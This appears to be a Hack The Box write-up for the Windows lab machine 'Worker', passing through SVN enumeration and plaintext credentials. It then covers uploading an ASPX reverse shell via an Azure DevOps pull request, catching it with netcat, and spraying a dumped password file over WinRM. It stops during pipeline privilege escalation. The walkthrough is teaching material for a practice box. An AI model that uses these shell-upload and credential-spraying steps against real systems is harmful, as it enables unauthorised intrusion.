`Box: Windows Medium`
### Index
1. [Box-Info](#Box-Info)
2. [Initian_Nmap](#Initian_Nmap)
3. [SVN_Enumeration](#SVN_Enumeration)
4. [Web_Enum_With_Creds](#Web_Enum_With_Creds)
	1. [Createing_New_Branch](#Createing_New_Branch)
	2. [New_Pull_Requests](#New_Pull_Requests)
	3. [Getting_Reverse_Shell](#Getting_Reverse_Shell)
5. [Getting_User_Flag](#Getting_User_Flag)
	1. [Enumerating_Logical_Disk](#Enumerating_Logical_Disk)
6. [Privilege_Escalation_Using_Azure_Pipeline](#Privilege_Escalation_Using_Azure_Pipeline)

### Box-Info
```
Worker is a medium box that teaches about software development environments and Azure DevOps pipeline abuse. It starts with extraction of source code from a SVN server, and then moves to a local Azure DevOps installation, which can be abused to gain a foothold and escalate privileges.
```
### Initian_Nmap
```
# nmap -p- --min-rate=1000 -sC -sV -sT -T4 -A -Pn 10.10.10.203
PORT     STATE SERVICE  VERSION
80/tcp   open  http     Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
3690/tcp open  svnserve Subversion
5985/tcp open  http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
```
### SVN_Enumeration

SVN is a SubVersion for version control and we can use `svn` command to further enumerate the box through `Port 3690`
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Worker.htb]
└─# svn ls svn://10.10.10.203      
dimension.worker.htb/
moved.txt
```
The `svn ls svn://<IP>` tells us what's present on the target.

```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Worker.htb]
└─# svn checkout svn://10.10.10.203 
A    dimension.worker.htb
A    dimension.worker.htb/LICENSE.txt
A    dimension.worker.htb/README.txt
<!-----------------SNIPPED------------------!>
A    dimension.worker.htb/images/bg.jpg
A    dimension.worker.htb/images/overlay.png
A    dimension.worker.htb/images/pic01.jpg
A    dimension.worker.htb/images/pic02.jpg
A    dimension.worker.htb/images/pic03.jpg
A    dimension.worker.htb/index.html
A    moved.txt
```

```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Worker.htb]
└─# cat moved.txt                            
This repository has been migrated and will no longer be maintaned here.
You can find the latest version at: http://devops.worker.htb

// The Worker team :)
```
Okay so we got two subdomains here. `dimension.worker.htb` as well as `devops.worker.htb`. Let's add both of them in `/etc/hosts` file.

The `Devops.worker.htb` throws us a box to login.

The `dimension.worker.htb` shows a one page site.

We will look into this later. Lets continue with the SVN Enumerations for now. I reviewed the files and code with in `dimention.worker.htb` directory but nothing interesting was found. Now we are going to use `svn log` command to show the log messages for the repository.
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Worker.htb]
└─# svn log svn://10.10.10.203     
------------------------------------------------------------------------
r5 | nathen | 2020-06-20 09:52:00 -0400 (Sat, 20 Jun 2020) | 1 line

Added note that repo has been migrated
------------------------------------------------------------------------
r4 | nathen | 2020-06-20 09:50:20 -0400 (Sat, 20 Jun 2020) | 1 line

Moving this repo to our new devops server which will handle the deployment for us
------------------------------------------------------------------------
r3 | nathen | 2020-06-20 09:46:19 -0400 (Sat, 20 Jun 2020) | 1 line

-
------------------------------------------------------------------------
r2 | nathen | 2020-06-20 09:45:16 -0400 (Sat, 20 Jun 2020) | 1 line

Added deployment script
------------------------------------------------------------------------
r1 | nathen | 2020-06-20 09:43:43 -0400 (Sat, 20 Jun 2020) | 1 line

First version
------------------------------------------------------------------------
```

We have 5 different versions of the same repository. But if you look at the `r2` than the comment says `Added deployment script`. Let's first clean up our previous checkout and download the `r2`.

```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Worker.htb]
└─# svn cleanup                          
 
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Worker.htb]
└─# svn checkout -r 2 svn://10.10.10.203 
D    moved.txt
A    deploy.ps1
Checked out revision 2.
```
Now we have the PowerShell script (deploy.ps1) checked out from r2. Looking at the PowerShell Script, we have the following content.
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Worker.htb]
└─# cat deploy.ps1                  
$user = "nathen" 
$plain = "wendel98"
$pwd = ($plain | ConvertTo-SecureString)
$Credential = New-Object System.Management.Automation.PSCredential $user, $pwd
$args = "Copy-Site.ps1"
Start-Process powershell.exe -Credential $Credential -ArgumentList ("-file $args")
```

We got the plain-text credentials for the user `Nathen`.

### Web_Enum_With_Creds

The above credentials worked on `devops.worker.htb`. 

Exploring the repository, we know that we've multiple application present in this repo.



Uploading the shell into Master Branch denied. So we are going to make a Pull Request and create a separate branch where we will upload the shell and then merge it to main branch. Just make sure you make a pull request to the specific app. Following is the way to get your shell into the master branch.
Click on Branch and Select New Branch, Then name the branch and just pick `1` as a Work Item to link ID and hit "create branch"

###### Createing_New_Branch




Click on the ShellBranch. Notice that the Application name is `Alpha` at the top. so once you're going to upload a shell here, it will be accessible through `alpha.worker.htb/shell.aspx`. If your application name is different then change the name of the domain accordingly.





Shell.aspx uploaded successfully. I have tried the PHP Reverse shell and failed to catch the reverse shell through PHP. 

###### New_Pull_Requests
Now let's merge this branch to the master branch.

Click on the `New Pull Request` for the `ShellBranch`.

Create a new pull request.

Approve the Pull Request.


Click `Complete`

Complete the Merge.
###### Getting_Reverse_Shell
Now don't forget to add `alpha.worker.htb` into your hosts file and start the NetCat Listener on port 4444. Access the `http://alpha.worker.htb/shell.aspx` and look at the NetCat Side
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Worker.htb]
└─# nc -lvnp 4444                     
listening on [any] 4444 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.203] 50369
Spawn Shell...
Microsoft Windows [Version 10.0.17763.1282]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool
```

We got the initial shell. But this does not let us read the user flag.
### Getting_User_Flag
Getting a user flag was bit tricker on this one. It is always good idea to enumerate any logical disk. The `WinPEAS` also shows that the logical drive `W:` is present.
```
############## Drives Information
# Remember that you should search more info inside the other drives 
    C:\ (Type: Fixed)(Filesystem: NTFS)(Available space: 9 GB)(Permissions: Users [AppendData/CreateDirectories])
    W:\ (Type: Fixed)(Volume label: Work)(Filesystem: NTFS)(Available space: 17 GB)(Permissions: Users [AppendData/CreateDirectories])
```
###### Enumerating_Logical_Disk
```
PS C:\tmp> wmic logicaldisk get name,description

Description       Name  

Local Fixed Disk  C:    
Local Fixed Disk  W:    
```

Switching the disk to `W:`
```
PS C:\tmp> W:
W:
PS W:\> dir
dir

    Directory: W:\

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       2020-06-16     18:59                agents                                                                
d-----       2020-03-28     14:57                AzureDevOpsData                                                       
d-----       2020-04-03     11:31                sites                                                                 
d-----       2020-06-20     16:04                svnrepos
```

```
PS W:\> cd svnrepos
PS W:\svnrepos> cd www
PS W:\svnrepos\www> cd conf
PS W:\svnrepos\www\conf> type passwd
type passwd
### This file is an example password file for svnserve.
### Its format is similar to that of svnserve.conf. As shown in the
### example below it contains one section labelled [users].
### The name and password for each user follow, one account per line.

[users]
nathen = wendel98
nichin = fqerfqerf
nichin = asifhiefh
noahip = player
nuahip = wkjdnw
oakhol = bxwdjhcue
owehol = supersecret
paihol = painfulcode
parhol = gitcommit
pathop = iliketomoveit
pauhor = nowayjose
payhos = icanjive
perhou = elvisisalive
peyhou = ineedvacation
phihou = pokemon
quehub = pickme
quihud = kindasecure
rachul = guesswho
raehun = idontknow
ramhun = thisis
ranhut = getting
rebhyd = rediculous
reeinc = iagree
reeing = tosomepoint
reiing = isthisenough
renipr = dummy
rhiire = users
riairv = canyou
ricisa = seewhich
robish = onesare
robisl = wolves11
robive = andwhich
ronkay = onesare
rubkei = the
rupkel = sheeps
ryakel = imtired
sabken = drjones
samken = aqua
sapket = hamburger
sarkil = friday
```

We got the password for almost all the users. let's copy this on kali and checkout which one of this is the correct one.

```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Worker.htb]
└─# netexec winrm  10.10.10.203 -u username -p passwords --continue-on-success
WINRM       10.10.10.203    5985   WORKER           [*] Windows 10 / Server 2019 Build 17763 (name:WORKER) (domain:Worker)
WINRM       10.10.10.203    5985   WORKER           [-] Worker\nathen:wendel98
WINRM       10.10.10.203    5985   WORKER           [-] Worker\nichin:wendel98
WINRM       10.10.10.203    5985   WORKER           [-] Worker\nichin:wendel98
WINRM       10.10.10.203    5985   WORKER           [-] Worker\noahip:wendel98
WINRM       10.10.10.203    5985   WORKER           [-] Worker\nuahip:wendel98
WINRM       10.10.10.203    5985   WORKER           [+] Worker\robisl:wolves11 (Pwn3d!)

```
We got the Winrm session for the user `robisl`
```
┌──(ringbuffer㉿kali)-[~]
└─$ evil-winrm -i 10.10.10.203 -u 'robisl' -p 'wolves11'
*Evil-WinRM* PS C:\Users\robisl\Documents> type C:\Users\robisl\Desktop\user.txt
f6ffd5df2505f9363362557053c04ca5
```
### Privilege_Escalation_Using_Azure_Pipeline
Now you can login to `http://devops.worker.htb` with the `robisl` credentials. Upon login, I tried to create a pipeline and failed. Here's a failed attempted. My plan was to just prepare a simple pipeline to see what happens and as what user the pipeline runs the commands as. So here it is.


When creating a new branch and the new pull requests, it failed to save changes.


While looking at the project settings (Bottom Left), I found that the user `Robisl` is a member of Build Administrator Group.


At this point, I tried to create a new deployment pool with the hope that I might be able to deploy the pipeline if I owned the deployment pool. But the user Robisl doesn't have the permission to create new Deployment pools

The Deployment Pool can be access by clicking on the top left "Azure DevOps" Icon and select the "Collection Setting" from the Bottom Left. 
When clicked on the "Agent Pools", I notice that there's one pool setup named "setup"
